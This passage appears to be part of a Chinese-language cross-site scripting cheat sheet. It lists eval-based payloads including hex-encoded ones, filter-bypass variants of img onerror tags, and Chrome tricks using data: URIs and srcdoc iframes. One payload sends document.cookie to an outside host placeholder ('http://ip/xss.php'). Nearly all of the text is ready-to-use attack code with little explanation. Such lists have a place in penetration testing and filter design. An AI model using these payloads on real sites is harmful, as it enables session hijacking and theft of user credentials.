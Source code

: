 * eval

```
<script>
eval("alert('xss')");
</script>

# eval 执行十六进制字符串形式
<script>
eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29");
</script>

# eval 执行10进制形式，需要 String.fromCharCode() 配合使用
```

## 0x03 常见绕过

```
# 大小写转换
<IMG sRc="a" onerror="alert(/xss/)">
# 单引号
<img src="a" onerror='alert(/xss/)'>
# 不用引号
<img src="a" onerror=alert(/xss/)>
# / 隔开
<img/src="a"/onerror="alert(/xss/)">
# /**/
<img/**/src="a"/**/onerror=alert(/xss/)>
```

## 0x04 常用 xss payload

```
# <svg>
<svg><script>location.href="http://ip/xss.php?q="+document.cookie</script></svg>
```

## 0x05 浏览器特性

### chrome

* Chrome下data协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

* Chrome下srcdoc属性

```
<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```
